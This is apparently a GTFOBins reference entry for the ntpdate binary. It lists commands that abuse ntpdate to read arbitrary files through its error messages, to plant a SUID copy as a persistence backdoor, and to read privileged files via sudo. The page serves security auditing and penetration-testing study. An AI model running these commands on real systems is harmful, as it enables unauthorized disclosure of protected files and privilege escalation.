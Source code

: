 # GTFOBin: ntpdate

The file is actually parsed and lines are leaked through error messages.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ntpdate -a x -k $LFILE -d localhost
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ntpdate) .

LFILE=file_to_read
./ntpdate -a x -k $LFILE -d localhost
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ntpdate -a x -k $LFILE -d localhost
```